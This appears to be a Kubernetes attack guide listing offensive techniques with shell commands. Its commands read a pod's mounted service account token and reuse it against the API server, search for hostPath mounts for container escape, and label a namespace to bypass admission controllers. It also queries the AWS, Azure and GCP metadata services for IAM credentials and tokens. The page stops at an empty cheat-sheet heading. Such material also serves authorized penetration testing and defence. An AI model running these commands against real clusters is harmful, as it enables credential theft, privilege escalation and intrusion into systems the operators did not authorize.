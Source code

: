 ## Advanced Techniques

### Token Theft and Reuse

Every pod has a service account token mounted by default:

```bash
# From inside a pod
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Use the token externally
kubectl --token="<stolen-token>" --server=https://api-server:6443 get pods
```

### Container Escape via Hostpath Mounts

Check for dangerous volume mounts:

```bash
kubectl get pods -o json | jq '.items[].spec.volumes[] | select(.hostPath != null)'
```

If you find a hostPath mount to `/`, `/etc`, or `/var`, you can access the host filesystem.

### Abusing Admission Controllers

Bypassing admission controllers can allow deploying malicious workloads:

```bash
# Check for admission controllers
kubectl get validatingwebhookconfigurations
kubectl get mutatingwebhookconfigurations

# Look for bypasses in namespaces
kubectl label namespace default admission.disabled=true
```

### Cloud Metadata Service Exploitation

From within a Kubernetes pod, you can often access cloud metadata:

```bash
# AWS
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Azure
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# GCP
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
```

## Tools Cheat Sheet
